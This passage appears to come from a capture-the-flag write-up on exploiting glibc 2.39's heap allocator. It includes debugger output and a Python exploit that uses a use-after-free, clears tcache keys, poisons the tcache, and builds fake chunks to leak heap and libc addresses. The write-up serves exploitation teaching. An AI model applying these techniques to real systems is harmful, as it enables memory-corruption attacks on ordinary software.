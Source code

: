 ```sh
```

To circumvent this check, we could simply pass the `tcache_key` check[^6] by
using our UAF to overwrite our chunks' tcache key with 0.

```sh
gef> tele *((char**)&chunks)[0] 4
      0x5566e26da2a0|+0x0000|+000: 0x00000005566e26da  # chunk 0 data
      0x5566e26da2a8|+0x0008|+001: 0x261a7d915e125039  # chunk 0 tcache key
      0x5566e26da2b0|+0x0010|+002: 0x0000000000000000
      0x5566e26da2b8|+0x0018|+003: 0x0000000000000000
```

[^5]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4538>
[^6]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4527>

### Putting It All Together

```python
def mangle(pos, ptr):
    return (pos >> 12) ^ ptr

io = start()

create(0, b"a")
create(1, b"b")
create(2, b"c")
delete(0)
delete(1)

out = read(0)  # UAF
heap_leak = u64(out[:8])
heap_base = heap_leak << 12
chunks = heap_base + 0x2a0

# tcache poisoning to control the next next chunk allocation to be at chunks+0x580
update(1, p64(mangle(chunks + 1 * 0x30, chunks + 0x580)))
create(3, b"e")
# chunk 4 will be allocated at chunks+0x580
# setup fake chunk 1 and 2
create(4, flat(0, 0x21, 0, 0, 0, 0x21))

update(0, flat(0, 0))  # clears tcache key
update(1, flat(0, 0))  # clears tcache key
delete(0)
delete(1)

# setup fake chunk 3
update(1, p64(mangle(chunks + 1 * 0x30, chunks + 0x70)))
create(5, b"f")
create(6, flat(0, 0x511))  # overwrites chunk 2 size

# free chunk 2 into unsorted bins
delete(2)

read(2)
libc_leak = u64(read(2)[:8])
libc.address = libc_leak - 0x203B20
log.info(f"{libc.address=:#x}")
```


[^1]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L329>
[^2]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4513>
[^3]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4678>
[^4]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4720>
[^9]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4041>
[^10]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L3914>
[^11]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L3977>
[^12]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4161>
[^99]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L1812>